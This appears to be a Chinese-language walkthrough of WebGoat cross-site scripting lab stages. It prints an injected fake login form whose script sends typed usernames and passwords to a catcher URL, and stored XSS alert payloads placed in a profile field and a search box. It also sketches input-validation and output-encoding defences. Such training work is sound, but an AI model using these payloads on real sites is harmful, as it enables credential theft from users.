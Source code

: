这里主要是要求我们利用搜索框伪造一个窃取用户信息的输入框，这里我们插入一个表单实现，代码如下。

```javascript
<form action="http://localhost:8080/WebGoat/catcher?PROPERTY=yes" method="get" name="xss">
    <script>
        function doXss() {
            const XSS = new Image();
            XSS.src = "http://localhost:8080/WebGoat/catcher?PROPERTY=yes&username=" + document.getElementById("_username").innerText + "&password=" + document.getElementById("_password").innerText + "";
            console.log(XSS.src);
        }
    </script>
    <p>username: <input type="text" name="username" id="_username" /></p>
    <p>password: <input type="text" name="password" id="_password" /></p>
    <input type="submit" value="Submit" onclick="doXss()" />
</form>
```

表单能够窃取用户输入的用户名和密码，然后发送到指定的 URL（http://localhost:8080/WebGoat/catcher?PROPERTY=yes）中去，实现窃取的效果。

![](https://hutao-image-bed.oss-cn-hangzhou.aliyuncs.com/uPic/mjJ9eo.png)

### Step 2 Cross Site Scripting

#### Stage 1 Stoerd XSS

这里要求我们作为 Tom，在自己的信息的 Street 里面存储一个 XSS 脚本，然后使用 larry 登录并查询 tom 的信息，观察 larry 受到的影响。

我们首先登录 tom 的账号。

![](https://hutao-image-bed.oss-cn-hangzhou.aliyuncs.com/uPic/ckQPQL.png)

点击 viewProfile，然后点击 editProfile 进行信息编辑，在 street 最后加上`<script>alert(tom is wating you)</script>`。

![](https://hutao-image-bed.oss-cn-hangzhou.aliyuncs.com/uPic/Wa0fjq.png)

然后使用 larry 的账户登录，搜索 tom 的信息，这时候就会有 alert 的信息出来（这里忘记截图 alert 的场景了，不过可以从图里面看出已经完成了 stage 1)。

![](https://hutao-image-bed.oss-cn-hangzhou.aliyuncs.com/uPic/r4JsoK.png)

#### Stage 2: Block Stored XSS using Input Validation

这里题目要求使用开发版进行完成，也是找不到完成的入口，暂时先和 SQL 注入部分一样先搁置了，不过我的思路大概是在后端更新 profile 的时候对每一个字段进行检查和过滤，防止 xss 注入。

#### Stage 3: Stored XSS Revisited

这一个 stage 不太明白意思，应该是需要前一个 stage 完成才能实现的，我按照题目的要求登录了 david 的账户，然后查看 bruce 的信息，触发了预先存储的 xss 脚本。

![](https://hutao-image-bed.oss-cn-hangzhou.aliyuncs.com/uPic/GpBQtV.png)

#### Stage 4: Block Stored XSS using Output Encoding

这题也是需要开发者版本完成的，所以也是暂时无法完成，不过大致上的思路是在返回页面的时候进行预编译，将 script 脚本转义成正常的文本，以此避免存储的 xss 脚本的执行，实现 xss 攻击的 block 效果。这里我是先登录，然后在 search 的界面里面注入需要执行的 xss 脚本`<script>alert("this is xss");</script>`实现了攻击
